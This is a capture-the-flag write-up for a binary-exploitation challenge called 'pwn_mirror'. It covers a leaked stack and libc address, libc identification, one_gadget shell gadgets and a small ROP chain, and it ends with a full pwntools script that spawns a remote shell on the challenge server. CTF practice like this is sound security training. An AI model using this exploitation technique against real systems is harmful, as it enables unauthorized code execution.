## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives me a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```

The first address points to the top of the stack and the second one to IO_printf function.

![overflow](writeupfiles/segfault.png)

I triggered a buffer overflow. The instruction pointer can be controlled.

![io_printf](writeupfiles/io_printf.png)

Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```
The next problem is that I only have control on the last byte of the return pointer. The solution is to modify the byte in such a way that the return pointer will be a bit higher on the stack, right at the beginning of my injected payload.

*NOTE : My solution is not 100% robust, sometimes the top and the bottom of the stack frame belong to different address spaces(the upper bytes differ too)*

Now I can use the 0xe5622 gadget and spawn a shell

![flag](writeupfiles/proof.png)


The script : 

```
from pwn import *
p = remote('docker.hackthebox.eu','30182')

p.recvuntil('>')
msg = b'y' + b'Z'*21
msg += p64(0)
p.sendline(msg)

data = p.recvline()
log.info(data)

PRINTF = data[95:109]
RSI_STACK = data[78:92]
PRINTF = PRINTF.decode('ascii')
RSI_STACK = RSI_STACK.decode('ascii')
PRINTF = int(PRINTF, 16)
RSI_STACK = int(RSI_STACK, 16)

#2.27 X64

LIBC_BEGIN = PRINTF - 0x64f70 
log.info(hex(LIBC_BEGIN))
ONE_GADGET = LIBC_BEGIN + 0xe5622
MOV_RDX_RAX = LIBC_BEGIN + 0x014148d
POP_RCX = LIBC_BEGIN + 0x34da3
REDIR = RSI_STACK & 0x000000FF
REDIR = REDIR - 8
payload = p64(MOV_RDX_RAX)
payload += p64(POP_RCX)
payload += b'\x00'*8
payload += p64(ONE_GADGET)
payload += p8(REDIR)
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```
